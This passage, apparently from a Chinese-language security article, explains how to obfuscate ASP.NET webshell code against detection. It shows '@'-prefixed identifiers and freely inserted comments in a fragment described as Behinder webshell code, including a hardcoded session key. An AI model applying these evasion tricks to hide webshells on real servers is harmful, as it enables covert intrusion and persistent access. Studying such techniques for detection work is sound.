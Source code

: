 ```
(Context.Session["payload"] == null)  
(@Context.@Session["payload"] == null)
```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUibFnVLP7jY3QpkXnMiam9r3d7jMCibCyKR43Ugj1WdtwUZLEMA5Xspn4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUayzH4qNRgQsicCbE5Uuc0m3OWkibGXf7x5qKFayaaAib0ia4sISBuCcoOA/640?wx_fmt=png)

#### 6、注释可以随意插入

如下所示为冰蝎部分代码

```
<%/*qi*/Session./*qi*/Add(@"k"/*qi*/,/*qi*/"e45e329feb5d925b"/*qi*/)
```

可以与<%%>结合使用效果会更好'
